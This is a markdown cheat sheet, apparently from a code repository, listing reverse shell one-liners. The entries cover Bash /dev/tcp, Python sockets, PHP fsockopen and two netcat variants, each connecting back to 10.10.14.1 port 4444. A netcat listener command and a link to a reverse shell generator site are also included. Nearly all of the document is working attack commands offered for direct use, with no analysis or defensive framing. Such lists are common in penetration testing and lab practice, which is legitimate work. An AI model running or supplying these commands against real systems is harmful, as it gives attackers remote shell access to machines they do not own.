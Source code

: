 # ⛓️ Reverse Shells Cheat Sheet

## 🐚 Bash
```bash
bash -i >& /dev/tcp/10.10.14.1/4444 0>&1
```
## 🐍 Python
```python
python -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("10.10.14.1",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh"])'
```
## 🐘 PHP
```php
php -r '$sock=fsockopen("10.10.14.1",4444); exec("/bin/sh -i <&3 >&3 2>&3");'
```
## 🦀 Netcat (Traditional)
```bash
nc -e /bin/sh 10.10.14.1 4444
```
## 🧪 Netcat (OpenBSD, without -e)
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.10.14.1 4444 > /tmp/f
```

## 🧞‍♂️ Listener
```bash
nc -lvnp 4444
```

## Reference
- 🌐[https://www.revshells.com](https://www.revshells.com/)